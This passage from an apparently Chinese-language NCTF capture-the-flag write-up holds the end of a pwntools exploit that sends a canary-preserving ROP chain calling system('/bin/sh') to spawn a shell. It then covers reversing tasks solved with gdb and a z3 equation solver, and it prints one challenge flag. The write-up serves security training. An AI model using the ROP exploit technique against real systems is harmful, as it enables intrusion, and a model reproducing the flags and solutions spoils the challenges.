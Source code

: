 ```python

    p.recv()
    print "get shell"
    rop_chain = p64(canary)*4+p64(prdi) + p64(next(libc.search("/bin/sh"))) + p64(libc.symbols['system'])
    p.sendline(rop_chain)
    # p.sendline("cat flag")
    # p.recv()
    p.interactive()
    break
```



# Re

## DEBUG

gdb打开下断复制

```
NCTF{just_debug_it_2333}
```

## 签到题

ida打开很多方程式运算，最后判断是否相等，用z3包求解即可

```python
from z3 import *
num=[18564, 37316, 32053, 33278, 23993, 33151, 15248, 13719, 34137, 27391, 28639, 18453, 28465, 12384, 20780, 45085, 35827, 37243, 26037, 39409, 17583, 20825, 44474, 35138, 36914, 25918, 38915, 17672, 21219, 43935, 37072, 39359, 27793, 41447, 18098, 21335, 46164, 38698, 39084, 29205, 40913, 19117, 21786, 46573, 38322, 41017, 29298, 43409, 19655]
sol=Solver( )

a= [Int('seria%d' % i) for i in range(50)]
sol.add(num[2 -2] == 34 * a[3 ]+ 12 *a[0 ]+ 53 * a[1 ]+ 6 * a[2 ]+ 58 * a[4 ]+ 36 * a[5 ]+ a[6 ])
sol.add(num[3 -2] == 27 * a[4 ]+ 73 * a[3 ]+ 12 * a[2 ]+ 83 *a[0 ]+ 85 * a[1 ]+ 96 * a[5 ]+ 52 * a[6 ])
sol.add(num[4 -2] == 24 * a[2 ]+ 78 *a[0 ]+ 53 * a[1 ]+ 36 * a[3 ]+ 86 * a[4 ]+ 25 * a[5 ]+ 46 * a[6 ])
sol.add(num[5 -2] == 78 * a[1 ]+ 39 *a[0 ]+ 52 * a[2 ]+ 9 * a[3 ]+ 62 * a[4 ]+ 37 * a[5 ]+ 84 * a[6 ])
sol.add(num[6 -2] == 48 * a[4 ]+ 6 * a[1 ]+ 23 *a[0 ]+ 14 * a[2 ]+ 74 * a[3 ]+ 12 * a[5 ]+ 83 * a[6 ])
sol.add(num[7 -2] == 15 * a[5 ]+ 48 * a[4 ]+ 92 * a[2 ]+ 85 * a[1 ]+ 27 *a[0 ]+ 42 * a[3 ]+ 72 * a[6 ])
sol.add(num[8 -2] == 26 * a[5 ]+ 67 * a[3 ]+ 6 * a[1 ]+ 4 *a[0 ]+ 3 * a[2 ]+ 68 * a[6 ])
sol.add(num[9 -2] == 34 * a[10] + 12 * a[7 ]+ 53 * a[8 ]+ 6 * a[9 ]+ 58 * a[11] + 36 * a[12] + a[13] )
sol.add(num[10-2] == 27 * a[11] + 73 * a[10] + 12 * a[9 ]+ 83 * a[7 ]+ 85 * a[8 ]+ 96 * a[12] + 52 * a[13] )
sol.add(num[11-2] == 24 * a[9 ]+ 78 * a[7 ]+ 53 * a[8 ]+ 36 * a[10] + 86 * a[11] + 25 * a[12] + 46 * a[13] )
sol.add(num[12-2] == 78 * a[8 ]+ 39 * a[7 ]+ 52 * a[9 ]+ 9 * a[10] + 62 * a[11] + 37 * a[12] + 84 * a[13] )
sol.add(num[13-2] == 48 * a[11] + 6 * a[8 ]+ 23 * a[7 ]+ 14 * a[9 ]+ 74 * a[10] + 12 * a[12] + 83 * a[13] )
sol.add(num[14-2] == 15 * a[12] + 48 * a[11] + 92 * a[9 ]+ 85 * a[8 ]+ 27 * a[7 ]+ 42 * a[10] + 72 * a[13] )
sol.add(num[15-2] == 26 * a[12] + 67 * a[10] + 6 * a[8 ]+ 4 * a[7 ]+ 3 * a[9 ]+ 68 * a[13] )
sol.add(num[16-2] == 34 * a[17] + 12 * a[14] + 53 * a[15] + 6 * a[16] + 58 * a[18] + 36 * a[19] + a[20] )
```